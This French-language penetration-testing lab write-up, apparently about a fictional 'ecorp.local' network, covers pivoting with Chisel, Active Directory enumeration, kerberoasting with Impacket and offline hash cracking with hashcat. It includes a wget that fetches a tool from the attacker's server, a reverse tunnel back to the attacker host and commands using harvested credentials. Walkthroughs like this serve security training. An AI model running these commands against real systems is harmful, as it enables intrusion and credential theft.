



# Phase 3 : Énumération AD et kerberoasting (pivoting)

**Correspondance MITRE ATT&CK :**
-   **Command and Control :** Protocol Tunneling (T1572), Proxy (T1090)
-   **Discovery :** Domain Groups (T1069.002)
-   **Credential Access :** Steal or Forge Kerberos Tickets: Kerberoasting (T1558.003), Password Cracking (T1110.002)

---

## 1. Mise en place du tunnel (pivoting via Chisel)

Le serveur compromis en DMZ (`10.0.10.10`) possède une interface de routage vers le réseau interne de l'Active Directory (`10.0.20.0/24`). Pour interagir avec ce réseau isolé depuis la machine attaquante, un tunnel de "pivoting" est mis en place à l'aide de l'outil `Chisel`.

**Transfert de l'outil (tool transfer) :**

Le binaire est téléchargé depuis le serveur HTTP de l'attaquant vers un répertoire temporaire de la cible (généralement ouvert en écriture et moins surveillé).
```bash
cd /var/tmp
wget http://192.168.1.150:8000/chisel -O chisel
chmod +x chisel
```

**Établissement du tunnel SOCKS5 :**
Pour maximiser les chances de contourner les règles de filtrage en sortie (Egress filtering), le serveur d'écoute de l'attaquant est configuré sur le port `443` (habituellement autorisé pour le trafic HTTPS).

*Sur la machine attaquante (serveur Chisel) :*
```bash
./chisel server --port 443 --reverse
```
*Sur la cible (client Chisel) :*
```bash
./chisel client 192.168.1.150:443 R:socks &
```
*Le tunnel inverse est établi en tâche de fond. Le serveur Chisel de l'attaquant ouvre alors localement un proxy SOCKS5 sur le port `1080` (`proxy#R:127.0.0.1:1080=>socks: Listening`).*

---

## 2. Énumération de l'Active Directory

Afin d'acheminer les outils d'attaque à travers le tunnel SOCKS5 précédemment créé, l'utilitaire `proxychains` est configuré sur la machine de l'attaquant.

**Configuration de Proxychains :**

Le fichier de configuration principal (`/etc/proxychains4.conf`) doit être modifié pour indiquer à l'outil comment router le trafic réseau.

```bash
# Édition du fichier de configuration
sudo nano /etc/proxychains4.conf

# On ajoute la ligne suivante à la toute fin du fichier :
# socks5 127.0.0.1 1080

# Vérification de l'ajout
tail -n 1 /etc/proxychains4.conf
# Résultat obtenu : socks5 127.0.0.1 1080
```
*Cette configuration indique à Proxychains d'intercepter tout le trafic réseau des commandes qui le précéderont et de l'envoyer vers le port local 1080 (celui ouvert par Chisel). Chisel se chargera ensuite d'acheminer ces paquets vers le réseau interne de la cible.*

**Énumération des comptes à privilèges :**

Grâce aux identifiants `e.alderson:E@lderson1` récupérés lors du credential harvesting (phase 2), il est désormais possible d'interroger le contrôleur de domaine. 

L'attaquant valide d'abord que les identifiants fonctionnent correctement sur le service de partage de fichiers (SMB), puis interroge l'annuaire (LDAP) pour cibler spécifiquement le groupe "Domain Admins". L'outil `netexec` est encapsulé dans Proxychains avec l'option `-q` (quiet) afin de masquer les journaux de routage internes et garder une sortie lisible.

```bash
# 1. Validation des identifiants (SMB)
proxychains -q netexec smb 10.0.20.5 -u 'e.alderson' -p 'E@lderson1'

# 2. Énumération des administrateurs du domaine (LDAP)
proxychains -q netexec ldap 10.0.20.5 -u 'e.alderson' -p 'E@lderson1' --groups "Domain Admins"
```



**Résultats de l'énumération :**

-   **Contrôleur de domaine :** `LAN-WIN-DC01` (Windows Server 2022 - Build 20348).
-   **Domaine :** `ecorp.local`.
-   **Cibles à haute valeur (Domain Admins) :** L'outil révèle que les utilisateurs `Administrator` et `t.wellick` sont membres du groupe Administrateurs du domaine. Compromettre l'un de ces comptes devient l'objectif principal de la prochaine phase.

---

## 3. Attaque kerberoasting

Plutôt que d'attaquer directement un compte administrateur, la stratégie consiste à identifier des comptes de service. Ces comptes disposent souvent de privilèges élevés et leurs mots de passe sont rarement renouvelés.

L'attaque *kerberoasting* vise à demander au contrôleur de domaine un ticket de service (TGS) pour tout compte possédant un attribut SPN (Service Principal Name). Ce ticket étant chiffré avec une dérivation du mot de passe du compte de service, il peut être extrait et cassé hors-ligne.

**Extraction du ticket via Impacket :**

```bash
proxychains -q impacket-GetUserSPNs ecorp.local/e.alderson:'E@lderson1' -dc-ip 10.0.20.5 -request -outputfile hashes_kerberoast.txt
```



**Analyse du résultat :**

L'outil identifie le compte vulnérable `svc_deploy` (associé au SPN `deploy/mgmt.ecorp.local`). Le ticket TGS est sauvegardé dans le fichier texte sous la forme d'une chaîne commençant par `$krb5tgs$23$*svc_deploy$ECORP.LOCAL...`. Ce type de compte ("deploy") suggère un service de déploiement (installation de logiciels, mises à jour). Ces tâches nécessitant des modifications système, ce compte possède très probablement des privilèges d'administrateur local, ce qui en fait une excellente opportunité de mouvement latéral.

---

## 4. Cassage de mot de passe hors-ligne (offline cracking)

Pour identifier le module de hachage (hash mode) correspondant à ce format de ticket Kerberos, la documentation interne de Hashcat est interrogée à l'aide d'un filtre `awk` :
```bash
hashcat --example-hashes | awk -v RS= -v ORS="\n\n" '/\$krb5tgs\$23\$/'
```
*Le résultat nous indique qu'il s'agit du mode `13100` (Kerberos 5 TGS-REP etype 23).*

Afin de maximiser la puissance de calcul, le fichier contenant le hash est transféré sur le système hôte (Windows 11) de l'attaquant pour exploiter l'accélération matérielle de la carte graphique (GPU). 

**Exécution de l'attaque par dictionnaire avec règles :**

La commande utilise le dictionnaire standard `rockyou.txt`, mais l'optimise drastiquement en appliquant le fichier de règles `best66.rule`. Ce dernier génère des dizaines de mutations pour chaque mot (ajout de chiffres, substitutions de caractères, majuscules) pour contourner les politiques de complexité des mots de passe.

```powershell
.\hashcat.exe -m 13100 -a 0 .\hashes_kerberoast.txt .\rockyou.txt -r .\rules\best66.rule
```



*Résultat : en seulement 9 secondes effectives d'attaque combinatoire, Hashcat révèle le mot de passe en clair du compte de service : **`Password123!`**.*